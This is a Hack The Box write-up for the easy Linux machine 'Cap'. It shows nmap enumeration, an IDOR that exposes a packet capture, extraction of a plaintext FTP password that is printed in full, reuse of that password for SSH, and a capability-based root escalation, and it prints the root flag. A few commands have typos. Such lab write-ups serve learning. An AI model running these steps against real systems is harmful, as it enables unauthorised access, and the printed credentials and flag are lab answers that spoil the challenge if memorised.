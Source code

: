 ### Hack The Box Writeup: Cap

## Overview

- **Machine Name**: Cap
- **Difficulty**: Easy
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: May 2025

Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. 

## Tools Used

- **Enumeration**: Nmap
- **Exploitation**: 
- **Privilege Escalation**: 
- **Other**: 

## Methodology

### Initial Enumeration

```bash
# Ping machine
ping -c 1 10.10.10.245

# Nmap port scanning
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.10.245 -oG allPorts
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted

whatweb http://10.10.10.245
nmap --script http-enum -p80 10.10.10.245

tshark -1 1.pcap -Tfields -e tcp.parload 2>/dev/null | xxd -ps -r # To reverse hexa

http://10.10.10.245/data/0 # idoor
tshark -r 0.pcap -Tfields -e tcp.payload | xxd -ps -r | grep "PASS"

# ans
PASS Buck3tH4TF0RM3!

# We can log in in FTP


```

### Exploitation

```bash
# FTP
ftp nathan@10.10.10.245
# pass Buck3tH4TF0RM3!

# In ftp
ls -l
get user.txt

# We can use the same credentials to log in SSH
ssh nathan@10.10.10.245
# pass Buck3tH4TF0RM3!



```

### Privilege Escalation

```bash
# Example: Checking for SUID binaries
cat root.py
which python3

python3 root.py

cd /root
cat root.txt
# 25283e53d52827861551248084297141

```

## Challenges Faced


- **Challenge 1**: 
  - **Solution**: 
- **Challenge 2**: 
  - **Solution**: 
## Lessons Learned


## References


---

*Written by edibauer, \[05 2025\]. Feedback welcome at .*